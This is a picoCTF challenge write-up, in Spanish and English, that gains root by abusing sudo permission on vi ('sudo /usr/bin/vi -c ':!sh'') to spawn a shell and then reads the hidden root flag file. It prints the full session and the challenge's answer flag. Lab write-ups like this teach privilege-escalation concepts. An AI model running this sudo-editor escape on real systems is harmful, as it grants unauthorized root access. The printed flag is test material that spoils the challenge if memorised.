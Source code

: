 ## Descripción:
Can you read files in the root file?

Additional details will be available after launching your challenge instance.

# Solución
```bash
picoplayer@challenge:~$ sudo /usr/bin/vi -c ':!sh'

# id
cat /root/flag.txt
uid=0(root) gid=0(root) groups=0(root)
# cat: /root/flag.txt: No such file or directory
# ^C
# ls -la /root
ls -la /home
ls -la /home/* 2>/dev/null
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Sep 16 03:01 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# total 0
drwxr-xr-x 1 root       root       24 Aug  4  2023 .
drwxr-xr-x 1 root       root       51 Sep 16 03:01 ..
drwxr-xr-x 1 picoplayer picoplayer 20 Sep 16 03:02 picoplayer
# total 12
drwxr-xr-x 1 picoplayer picoplayer   20 Sep 16 03:02 .
drwxr-xr-x 1 root       root         24 Aug  4  2023 ..
-rw-r--r-- 1 picoplayer picoplayer  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoplayer picoplayer 3771 Feb 25  2020 .bashrc
drwx------ 2 picoplayer picoplayer   34 Sep 16 03:02 .cache
-rw-r--r-- 1 picoplayer picoplayer  807 Feb 25  2020 .profile
# ^C
# cat /root/.flag.txt
picoCTF{uS1ng_v1m_3dit0r_55878b51}
# ^C
# Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.
```
Respuesta:`picoCTF{uS1ng_v1m_3dit0r_55878b51}`
## Notas

## Referencias
 